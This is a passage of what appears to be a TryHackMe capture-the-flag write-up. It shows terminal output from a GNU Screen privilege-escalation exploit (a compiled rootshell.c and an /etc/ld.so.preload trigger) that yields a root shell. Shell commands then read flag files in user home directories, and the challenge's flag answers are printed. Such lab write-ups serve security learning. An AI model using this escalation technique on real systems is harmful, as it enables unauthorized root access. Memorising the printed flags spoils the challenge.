 ```bash
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-pasta.

# whoami
root
```
And we will use it find all flag
Flag1: thm{2f30841ff8d9646845295135adda8332}


```bash
# cd  bread
# ls
flag  main  main.go  resources  text
# cat flag
thm{7baf5aa8491a4b7b1c2d231a24aec575}

```

Flag2:thm{7baf5aa8491a4b7b1c2d231a24aec575}
```bash
# ls
bread  food  pasta  ramen  tryhackme
# cd food
# ls -la
total 44
drwxr-xr-x 5 food food 4096 Oct 16 16:26 .
drwxr-xr-x 7 root root 4096 Mar 28  2020 ..
-rw------- 1 food food   17 Oct 16 16:26 .bash_history
-rw-r--r-- 1 food food  220 Mar 19  2020 .bash_logout
-rw-r--r-- 1 food food 3771 Mar 19  2020 .bashrc
drwx------ 2 food food 4096 Mar 19  2020 .cache
-rw-rw-r-- 1 food food   38 Mar 28  2020 .flag
drwx------ 3 food food 4096 Mar 19  2020 .gnupg
drwxrwxr-x 3 food food 4096 Mar 19  2020 .local
-rw------- 1 food food   23 Mar 19  2020 .mysql_history
-rw-r--r-- 1 food food  815 Mar 28  2020 .profile
# cat .flag
thm{58a3cb46855af54d0660b34fd20a04c1}

```
